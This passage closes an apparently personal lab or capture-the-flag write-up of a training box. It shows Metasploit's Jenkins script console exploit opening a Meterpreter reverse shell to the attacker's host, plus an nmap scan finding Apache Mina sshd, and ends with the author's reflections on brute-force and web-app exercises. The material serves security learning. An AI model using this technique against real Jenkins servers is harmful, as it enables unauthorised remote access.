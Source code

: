 And a new shell appears!

``` 
msf exploit(jenkins_script_console) > exploit

[*] Started reverse TCP handler on 192.168.217.132:8080 
[*] Checking access to the script console
[*] Logging in...
[*] 192.168.217.128:9000 - Sending Linux stager...
[*] Sending stage (849108 bytes) to 192.168.217.128
[*] Meterpreter session 1 opened (192.168.217.132:8080 -> 192.168.217.128:48103) at 2017-12-12 12:49:19 -0500

meterpreter > 
[!] Deleting /tmp/wE472W payload file
```

Lastly, there were some other open ports, but I couldn't use them for exploitation.

``` 
PORT      STATE SERVICE     VERSION
46201/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequest: 
|     Unrecognized protocol:
|   DNSVersionBindReq: 
|     Unrecognized protocol: 
|     version
|_    bind
53180/tcp open  ssh         Apache Mina sshd 0.8.0 (protocol 2.0)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port46201-TCP:V=7.60%I=7%D=12/2%Time=5A22FB7C%P=x86_64-pc-linux-gnu%r(D
SF:NSVersionBindReq,36,"Unrecognized\x20protocol:\x20\0\x06\x01\0\0\x01\0\
SF:0\0\0\0\0\x07version\x04bind\0\0\x10\0\x03\n")%r(DNSStatusRequest,24,"U
SF:nrecognized\x20protocol:\x20\0\0\x10\0\0\0\0\0\0\0\0\0\n");
```

Interestingly, it was the first time I encountered Apache Mina, so this was a good occasion to learn more about it:

> Apache MINA is a network application framework which helps users develop high performance and high scalability 
> network applications easily. It provides an abstract event-driven asynchronous API over various transports such as 
> TCP/IP and UDP/IP via Java NIO.

Well, this was fun box and I learned a lot from it. The bruteforce exercises were interesting, because I could familiarize myself with tools I hadn't used before, like patator and fcrackzip. Rest of the web application vulnerabilities were pretty straightforward, but I liked the Jenkins and Redis ones, which were something fresher than the usual Apache/PHP app challenges. All in all, a great machine to learn more about web app security, and one I strongly recommend.

### Learn more
